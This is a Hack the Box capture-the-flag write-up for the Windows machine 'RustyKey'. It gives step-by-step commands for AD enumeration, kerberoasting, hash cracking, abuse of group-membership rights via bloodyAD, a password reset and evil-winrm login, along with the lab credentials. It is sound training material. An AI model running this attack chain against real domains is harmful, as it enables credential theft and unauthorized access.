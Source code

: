 # RustyKey

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Hard**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Use ldapsearch for AD enumeration
- Learned that Netexec by default filters out machine accounts when kerberoasting because machine accounts normally have very strong passwords set by default. However, this is not always the case like here, and is kerberoastable/crackable.
- Found what security implementations the Protected Users group has by default (Stronger AES encryption on TGTs, disabling NTLM hash and caching credentials, TGTs expire in 4 hours, etc.)
- Learned that having AddMember privileges can also mean having RemoveMember rights. Also learned that one can remove not only users from groups, but groups from groups using bloodyAD


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

![image](https://github.com/user-attachments/assets/483ca663-e7d2-4944-b26e-5564e6d92d2d)

2. Run bloodhound using given credentials `rr.parker:8#t5HE8L!W3A`

![image](https://github.com/user-attachments/assets/3874dc11-7171-4dd9-9f61-b3472efb00f8)

3. We get an error with LDAP saying it can't find dc.rustykey.htb so add that to `/etc/hosts` file and try again.

`sudo bloodhound-python -d rustykey.htb -u rr.parker -p "8#t5HE8L\!W3A" -ns 10.129.63.201 -c all`

4. With bloodhound, we find an initial path to user via nn.marcos

![image](https://github.com/user-attachments/assets/22162d58-fed1-421d-a1e1-36a639eef6ba)

5. However, with rr.parker, there is no way to nn.marcos. After much enumeration and dead ends, we try kerberoasting to gain initial access. But we get no results for it

`nxc ldap dc.rustykey.htb -u rr.parker -p "8#t5HE8L\!W3A" -k --kerberoasting kerberoast.txt`

![image](https://github.com/user-attachments/assets/f06dbd5b-a301-42a9-9034-1a996a147349)

6. Running it again with the debug flag this time, we see that by default, nxc searches only for computers. We change the filter to look for users instead and try again.

![image](https://github.com/user-attachments/assets/1bca6dc5-6fa5-4fc6-aa8b-afbfba610c98)

7. Kerberoasting successful! We got a hash

![image](https://github.com/user-attachments/assets/e4d8528d-03cd-468e-bbde-3ae0a0f6c1df)

8. Crack offline with hashcat

`hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt`

9. Hash doesn't crack, so we try kerberoasting with a different method. First, enumerate all usernames with ldapsearch

`ldapsearch -x -H ldap://rustykey.htb -D 'rr.parker@rustykey.htb' -w '8#t5HE8L!W3A' -b "DC=rustykey,DC=htb" "(objectCategory=*)" sAMAccountName | grep '^sAMAccountName:' | cut -d' ' -f2 > accountList`

![image](https://github.com/user-attachments/assets/2f6787e2-1765-4f50-b0d9-c30819116bb2)

10. Then try kerberoasting using impacket's GetUserSPNs.py script using the `-usersfile` flag

`GetUserSPNs.py -usersfile accountList -request -k -dc-ip 10.129.244.92 -dc-host dc.rustykey.htb rustykey.htb/rr.parker:"8#t5HE8L\!W3A" -outputfile kerberoast.txt`

![image](https://github.com/user-attachments/assets/dd7e5e13-5d06-4055-b210-bd046e3d64da)

11. Kerberoasting is a success and we get back 17 hashes. Try cracking them offline once more using hashcat

`hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt`

![image](https://github.com/user-attachments/assets/f791b6a7-ae86-412b-a5ed-ea7dbfe78616)

12. Got the password for machine account IT-Computer3$. Now, check bloodhound and see if there's a path to the machine with this account

![image](https://github.com/user-attachments/assets/61ed86ed-c04a-4ecc-8e1d-e017673e08d4)

13. Yes, there is! So our game plan now will be to add the IT-Computer3$ account to the Helpdesk group, which can change BB.Morgan's password. This will give us access to the DC.Rustykey.htb machine!

14. Add IT-Computer3$ to Helpdesk group via bloodyAD

`sudo python3 /opt/bloodyAD/bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' add groupMember Helpdesk 'IT-Computer3$'`

![image](https://github.com/user-attachments/assets/bc7eb631-1379-4863-89ff-9d9dc105ffdf)

15. Tried changing bb.morgan's password and log in but can't because bb.morgan is part of the Protected Objects group. After looking at Bloodhound again, Helpdesk group has AddMember rights on Protected Objects so remove IT group from the protected group first.

![image](https://github.com/user-attachments/assets/75bb0296-adce-4b05-bcb0-ee58d7393b6f)

16. Now change bb.morgan's password using IT-Computer3$'s creds

`sudo python3 /opt/bloodyAD/bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-Computer3$' -p 'Rusty88!' set password bb.morgan Password123`

17. Changed! Now we can request a Ticket Granting Ticket with bb.morgan's credentials using impacket's getTGT.py script

`getTGT.py -dc-ip dc.rustykey.htb rustykey.htb/bb.morgan:Password123`

18. Finally, add the path to the ticket to the KRB5CCNAME environment variable and log into the machine using evil-winrm with kerberos authentication

`evil-winrm -i dc.rustykey.htb -u bb.morgan -p Password123 -r rustykey.htb`

19. Got the user flag!!!

![image](https://github.com/user-attachments/assets/0ed173f0-11b7-4263-8835-ce7e7280b36c)


